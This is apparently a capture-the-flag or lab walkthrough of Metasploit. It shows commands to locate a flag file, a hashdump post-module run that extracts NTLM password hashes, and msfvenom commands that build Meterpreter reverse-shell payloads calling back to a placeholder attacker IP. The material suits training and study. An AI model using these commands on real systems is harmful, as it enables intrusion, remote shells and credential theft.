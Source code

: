 Navigate to flag:

```bash
dir
cd C:\Users
dir
cd <USERNAME>\Desktop
dir
type flag.txt
```


**Q. What is the NTLM hash of the password of the user "pirate"?**

Commands:

```bash
msfconsole
use post/windows/gather/hashdump
set SESSION 1
run
```

Output will dump hashes → locate the `pirate` user hash.

---

### 🔹 Msfvenom

**Msfvenom** (which replaced *msfpayload* and *msfencode*) allows us to generate payloads in multiple formats and for various target platforms. It is tightly integrated with the Metasploit Framework.  

- **Payloads** → can be for Windows, Linux, PHP, Android, iOS, etc.  
- **Formats** → exe, elf, dll, php, raw, py, asp …  
- **Encoders** → simply encode payloads, but not guaranteed to bypass AV.  
- **Handlers** → used to catch the reverse connection (reverse shell / Meterpreter).  


####  Listing Available Payloads

```bash
msfvenom -l payloads
````

This shows all supported payloads (over 500).


####  Generating Payloads

Examples:

* **Linux ELF Meterpreter**

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f elf -o shell.elf
```

* **Windows Executable**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
```

